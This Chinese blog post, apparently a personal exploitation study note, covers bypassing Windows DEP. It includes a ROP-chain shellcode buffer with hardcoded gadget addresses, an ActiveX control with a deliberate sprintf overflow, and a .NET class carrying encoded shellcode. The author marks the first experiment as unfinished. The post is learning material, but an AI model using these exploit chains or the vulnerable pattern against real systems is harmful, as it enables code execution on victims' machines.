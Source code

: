 ```yaml
---
title: 漏洞利用学习笔记-016-利用可执行内存和.NET攻击DEP
description: Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP
date: 2020-11-20 14:13:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 数据执行保护
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-016-利用可执行内存和.net攻击dep/)

## 利用可执行内存攻击DEP

### 原理

- 有的时候在进程的内存空间中会存在一段可读可写可执行的内存，如果我们能够将shellcode复制到这段内存中，并劫持程序流程，我们的shellcode就有执行的机会

### 代码

```cpp
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
"\x00\x00\x14\x00"//可执行内存空间地址，复制用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
"\xFF\x00\x00\x00"//shellcode 长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"......"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

### 后记

- 按理来说是要有RWE权限的内存区域的，可惜么得，此实验未完成

## 利用.NET攻击DEP

### 原理

- .NET 的文件具有和与PE文件一样的结构，也就是说它也具有.text等段，这些段也会被映射到内存中，也会具备一定的可执行属性。大家应该想到如何利用这一点了，将shellcode放到.NET中具有可执行属性的段中，然后让程序转入这个区域执行，就可以执行shellcode了
- 需求
  - 具有溢出漏洞的ActiveX控件
  - 包含有shellcode的.NET控件
  - 可以触发ActiveX控件中溢出漏洞的POC页面

### 代码

> 具有溢出漏洞的ActiveX控件

```cpp
void CVulnerAXCtrl::test(LPCTSTR str)
{
    // AFX_MANAGE_STATE(AfxGetStaticModuleState());
    // TODO: Add your dispatch handler code here
    printf("aaaa"); // 定位该函数的标记
    char dest[100];
    sprintf(dest, "%s", str);
}
```

> 包含有shellcode的.NET控件

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
            "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857"
            ;
        }
    }
}
```

## 利用Java Applet挑战DEP

> 难以找到适合的版本，所以此实验略过，以后有机会再补充
